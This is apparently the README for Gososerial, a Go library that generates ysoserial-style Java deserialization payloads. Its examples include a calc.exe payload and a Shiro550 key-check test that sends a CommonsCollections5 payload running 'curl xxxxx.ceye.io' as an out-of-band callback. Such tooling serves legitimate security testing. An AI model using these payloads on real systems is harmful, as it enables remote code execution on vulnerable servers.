 # Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具
  
- 无需java环境，无需下载ysoserial.jar文件
  
- 输入命令直接获得payload，方便编写安全工具 

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

## Example

CommonsCollections1 Payload

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)


List of Supported

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## Quick Start

```shell
go get github.com/EmYiQing/Gososerial
```

```go
package main

import gososerial "github.com/EmYiQing/Gososerial"

func main()  {
	payload := gososerial.GetCC1("calc.exe")
	......
	sendPayload(payload)
	......
}
```

Shiro550 Scan Code

```go
......
func TestFindShiro(t *testing.T) {
	target := "http://192.168.222.132:8080/"
	key := shiro.CheckShiroKey(target)
	if key != "" {
		log.Info("find key: %s", key)
	}
	payload := gososerial.GetCC5("curl xxxxx.ceye.io")
	shiro.SendPayload(key, payload, target)
}
......
```

## About

参考了xray中p师傅的代码

**ysoserial**: https://github.com/frohoff/ysoserial

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n
